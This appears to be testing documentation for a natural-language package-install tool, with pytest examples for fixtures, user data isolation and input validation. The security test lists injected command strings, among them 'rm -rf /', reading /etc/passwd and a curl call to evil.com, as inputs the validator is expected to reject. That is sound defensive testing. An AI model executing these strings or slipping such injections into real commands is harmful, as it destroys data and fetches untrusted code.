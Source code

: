## Security Testing

### Boundary Testing

```python
def test_security_boundaries():
    """Ensure all inputs are validated."""
    backend = TestExecutionBackend()

    malicious_inputs = [
        "install firefox; rm -rf /",
        "install `cat /etc/passwd`",
        "install $(curl evil.com)",
    ]

    for evil in malicious_inputs:
        # Should be caught before execution
        with pytest.raises(SecurityError):
            validate_input(evil)
```

## Best Practices

### 1. Use Fixtures Wisely

```python
@pytest.fixture
def test_environment():
    """Provide complete test environment."""
    db = TestDatabase()
    yield {
        'db': db,
        'nlp': TestNLPEngine(),
        'executor': TestExecutionBackend(),
        'learning': TestLearningEngine(db),
    }
    db.close()  # Cleanup
```

### 2. Test Data Isolation

```python
def test_user_isolation():
    """Each user's data must be isolated."""
    db = TestDatabase()

    # User 1 learns firefox preference
    db.record_preference('user1', 'browser', 'firefox')

    # User 2 learns chrome preference
    db.record_preference('user2', 'browser', 'chrome')

    # Verify isolation
    assert db.get_preference('user1', 'browser')['value'] == 'firefox'
    assert db.get_preference('user2', 'browser')['value'] == 'chrome'
```
